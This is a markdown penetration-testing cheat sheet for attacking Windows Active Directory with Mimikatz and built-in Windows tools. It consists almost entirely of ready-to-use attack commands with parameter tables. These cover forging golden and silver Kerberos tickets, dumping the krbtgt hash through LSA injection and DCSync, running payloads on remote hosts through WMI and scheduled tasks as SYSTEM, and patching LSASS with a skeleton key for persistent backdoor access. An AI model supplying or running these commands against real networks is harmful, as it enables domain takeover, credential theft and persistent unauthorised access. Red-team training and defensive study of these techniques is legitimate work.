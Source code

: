 # Tickets

## Golden Ticket

a valid ticket forged from the Domain Controller KRBTGT hash. Allows an attacker to impersonate any user on any machine even from an host external to the domain.

```
kerberos::golden /domain:<domain> /sid:<sid> /aes256:<aes> /user:<user> /groups:<groups> /ptt
```

Create Golden Ticket as Administrator user and store it in memory

```
kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /krbtgt:<ticket> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

| Parameter                              | Description                                                                                   |
| -------------------------------------- | --------------------------------------------------------------------------------------------- |
| /user                                  | Username                                                                                      |
| /domain                                | FQDN                                                                                          |
| /sid                                   | Domain SID                                                                                    |
| /krbtgt OR /aes128 OR /aes256 OR /ntlm | key to use to generate the ticket                                                             |
| /id                                    | User ID, use 500 for Administrator                                                            |
| /groups                                |  Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset                           |  0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin                                 | Optional ticket lifetime in minutes. Default is 600 (10 hours)                                |
| /renewmax                              | Optional ticket lifetime in minutes. Default is 10080 (7 days)                                |
| /ptt OR /ticket                        | Load the ticket in memory or store it as a file for later use                                 |

### Mimikatz info dump

```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Silver Ticket

Create a valid TGT ticket from a known NTLM service hash. Allows to gain access to the service machine.

```
kerberos::golden /user:<user> /domain:<domain> /sid:<SID> /rc4:<hash> /id:<id> /groups:<groups> /service:<srv> /target:<host>
```

| Parameter       | Description                                                                                   |
| --------------- | --------------------------------------------------------------------------------------------- |
| /user           | Username                                                                                      |
| /domain         | FQDN                                                                                          |
| /sid            | Domain SID                                                                                    |
| /rc4            | NTLM key                                                                                      |
| /id             | User ID, use 500 for Administrator                                                            |
| /groups         |  Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset    |  0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin          | Optional ticket lifetime in minutes. Default is 600 (10 hours)                                |
| /renewmax       | Optional ticket lifetime in minutes. Default is 10080 (7 days)                                |
| /service        | Type of service to attack. See table below for reference.                                     |
| /target         | The target host                                                                               |
| /ptt OR /ticket | Load the ticket in memory or store it as a file for later use                                 |

### List of service attacks

In case of multiple tickets, the attacker has to create a new silver ticket for the same target host for each specified service type. The following attacks are run from the Windows machine where oyu have created the ticket

| Service                             | Silver Tickets service types required          |
| ----------------------------------- | ---------------------------------------------- |
| WMI                                 | HOST, RPCSS                                    |
| PowerShell Remoting                 | HOST, HTTP, WSMAN or RPCSS depending on the OS |
| WinRM                               | HOST, HTTP                                     |
| Task Scheduler                      | HOST                                           |
| LDAP                                | LDAP                                           |
| Windows File Share                  | CIFS                                           |
| Windows Remote Administration Tools | RPCSS, LDAP, CIFS                              |

#### WMI

```
wmic.exe /authority:"kerberos:<domain>\<DC>" /node:"<target>" process call create "<payload>"
```

#### PowerShell remoting / WinRM

```
New-PSSESSION -NAME PSC -ComputerName <target>; Enter-PSSession -Name PSC
```

#### Task Scheduler

```
schtasks /create /s <target> /SC <time> <amount> /RU "NT Authority\System" /IR "<payload>"
schtasks /create /s <target> /SC <time> <amount> /RU "<group>/<user>" /IR "<payload>"
```

The available times are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE. For the first 5 ones you also have to specify an amount of time, for instance HOURLY 3 means start every 3 hours.

#### Windows File Share

```
dir \\<target>\c$
```

#### LDAP Desync attack

```
lsadump::dcsync /dc:<DC> /domain:<domain> /user:krbtgt
```

## Skeleton Key

Patches the LSASS Domain Controller process to allow access for a determined user with an arbitrary password specified by the attacker. After the attack both the new password and the original one are considered valid. The default injected password is mimikatz.

```
misc::skeleton
```

###
